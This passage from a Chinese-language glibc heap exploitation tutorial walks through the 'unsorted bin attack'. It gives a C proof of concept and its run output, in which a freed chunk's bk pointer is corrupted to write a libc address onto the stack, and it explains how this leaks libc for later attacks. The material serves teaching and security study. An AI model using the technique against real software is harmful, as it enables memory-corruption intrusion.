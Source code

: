 可以看到在 malloc 时，fake chunk 被不断重复地链接到 tcache bin，直到装满后，才从 unsorted bin 里取出。同样的，fake chunk 的 fd 指向 unsorted bin。

### unsorted_bin_attack

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    unsigned long stack_var = 0;
    fprintf(stderr, "The target we want to rewrite on stack: %p -> %ld\n\n", &stack_var, stack_var);

    unsigned long *p  = malloc(0x80);
    unsigned long *p1 = malloc(0x10);
    fprintf(stderr, "Now, we allocate first small chunk on the heap at: %p\n",p);

    free(p);
    fprintf(stderr, "We free the first chunk now. Its bk pointer point to %p\n", (void*)p[1]);

    p[1] = (unsigned long)(&stack_var - 2);
    fprintf(stderr, "We write it with the target address-0x10: %p\n\n", (void*)p[1]);

    malloc(0x80);
    fprintf(stderr, "Let's malloc again to get the chunk we just free: %p -> %p\n", &stack_var, (void*)stack_var);
}
```

```text
$ gcc -g unsorted_bin_attack.c
$ ./a.out
The target we want to rewrite on stack: 0x7ffc9b1d61b0 -> 0

Now, we allocate first small chunk on the heap at: 0x1066010
We free the first chunk now. Its bk pointer point to 0x7f2404cf5b78
We write it with the target address-0x10: 0x7ffc9b1d61a0

Let's malloc again to get the chunk we just free: 0x7ffc9b1d61b0 -> 0x7f2404cf5b78
```

unsorted bin 攻击通常是为更进一步的攻击做准备的，我们知道 unsorted bin 是一个双向链表，在分配时会通过 unlink 操作将 chunk 从链表中移除，所以如果能够控制 unsorted bin chunk 的 bk 指针，就可以向任意位置写入一个指针。这里通过 unlink 将 libc 的信息写入到我们可控的内存中，从而导致信息泄漏，为进一步的攻击提供便利。

unlink 的对 unsorted bin 的操作是这样的：

```c
          /* remove from unsorted list */
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

其中 `bck = victim->bk`。
